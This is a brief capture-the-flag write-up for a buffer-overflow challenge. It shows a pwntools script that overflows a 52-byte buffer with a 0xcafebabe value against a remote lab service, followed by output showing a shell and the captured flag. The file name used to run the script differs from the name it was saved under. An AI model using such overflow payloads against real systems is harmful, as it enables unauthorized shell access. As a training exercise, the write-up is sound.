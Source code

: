 Lets do with ```pwntools```

```c
ra@moni~/P/p/bof> cat exploit.py
#!/usr/bin/python
from pwn import *
buf=""
buf+="A"*52
buf+=p32(0xcafebabe)
host="128.61.240.205"
port=9000
p=remote(host,port)
#p=process('./bof')
p.send(buf)
p.interactive()
```

Trying it,

```c
ra@moni~/P/p/bof> python3 test.py
[+] Opening connection to 128.61.240.205 on port 9000: Done
[*] Switching to interactive mode
$ whoami
$ whoami
bof
$ cat flag
daddy, I just pwned a buFFer :)
```

Done! we got the flag

```Flag: daddy, I just pwned a buFFer :)```







